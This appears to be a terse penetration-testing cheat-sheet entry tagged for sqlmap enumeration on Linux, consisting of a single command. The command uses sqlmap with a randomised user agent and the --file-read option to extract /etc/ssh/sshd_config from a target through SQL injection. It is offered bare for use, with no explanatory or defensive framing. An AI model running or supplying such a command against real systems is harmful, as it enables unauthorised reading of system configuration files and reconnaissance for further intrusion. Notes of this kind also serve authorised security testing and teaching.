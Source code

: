 # Linux

Search Tag: #sqlmap #enumeration-and-discovery

## Automated

```
$ sqlmap -u <URL> --random-agent --file-read="/etc/ssh/sshd_config"
```